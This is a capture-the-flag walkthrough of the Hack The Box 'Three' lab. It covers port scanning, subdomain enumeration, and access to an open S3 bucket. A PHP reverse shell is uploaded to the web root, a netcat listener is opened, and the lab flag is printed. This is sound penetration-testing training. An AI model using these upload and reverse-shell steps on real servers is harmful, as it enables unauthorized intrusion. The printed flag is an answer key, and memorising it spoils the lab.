 ```yaml
---
layout: default
title: Three
---
```


we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

We can see that port `22` is opened with *ssh* service, and also port `80` with *apache* service.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we go to the website, we can see a regular site, and inside we can see it uses domains, as we can see in the mail it uses `thetoppers.htb`.

![domain](image-1.png)

Let's first add to `/etc/hosts`, and then try to find more subdomains, maybe there is something interesting.

For this, I downloaded `SecLists` using this command:
```bash
sudo git clone https://github.com/danielmiessler/SecLists.git
```
and put it inside `/usr/share`, that i'll be able to use it in the future. It has multiple wordlists that can be very useful.

Then, we'll use `gobuster` on `vhost` mode, using this command. Notice the `--append-domain` is important, otherwise it just sends the words from the wordlists, without the original domain:
```bash
gobuster vhost --url http://thetoppers.htb/ -w /usr/share/SecLists/Discovon-5000.txt --append-domain
```

![find s3](image-2.png)

Okay, we find `s3.thetoppers.htb`, which is the bucket of `aws`. let's add it to our `/etc/hosts` file, remember this is only virtual host, so it uses the same ip. 

Now after we want to use the tool `aws` to connect to the bucket. In my case, I needed to install `awscli`, using this command:
```bash
sudo apt install awscli
```

First, we need to configure the credentials using `aws configure` command. In regular state we'll need to put here the real creds, however, in our case we can login also with invalid creds.
```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws configure
AWS Access Key ID [****************a]: bla
AWS Secret Access Key [****************a]: bla
Default region name [a]: bla
Default output format [a]: bla
```

Then, we want to list all available buckets:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls
```
We specify the endpoint using the `--endpoint` flag, and also note we want all `s3` buckets, using the `ls` command.

```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws --endpoint "http://s3.thetoppers.htb/" s3 ls                    
2025-10-06 06:27:28 thetoppers.htb
```

Okay, now we want to get all files in the bucket, using this command:

```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls "s3://thetoppers.htb/"
```
![bucket files](image-3.png)

As we can see, it holds the files for the webserver. 
```bash
2025-10-06 06:27:28          0 .htaccess
2025-10-06 06:27:28      11952 index.php
```

Let's upload our `webshell`, that will execute `reverse shell`, and then we'll compromise the webserver.

We uses pentest monkey reverse shell, from here https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

```php
{% include_relative php-reverse-shell.php %}
```

We need to change the `ip` and the `port`, based on our ip and the port we uses to listen using the command `nc -nvlp 770`
![ip and port](image-4.png)

Now, let's upload the `php-reverse-shell.php` using this command:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 cp php-reverse-shell.php "s3://thetoppers.htb/"
```

![upload webshell](image-5.png)


And now, set the listener and access the webshell, `http://thetoppers.htb/php-reverse-shell.php`, and go back to the terminal.

![get shell](image-6.png)

I like to paste those commands, it spawns me a normal shell i can work with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

I execute `find / -name "flag.txt" 2>/dev/null` to find where `flag.txt` is hidden, and this is the result. 
```
www-data@three:/$ find / -name "flag.txt" 2>/dev/null
/var/www/flag.txt
```

![flag](image-7.png)

**Flag:*****`a980d99281a28d638ac68b9bf9453c2b`***
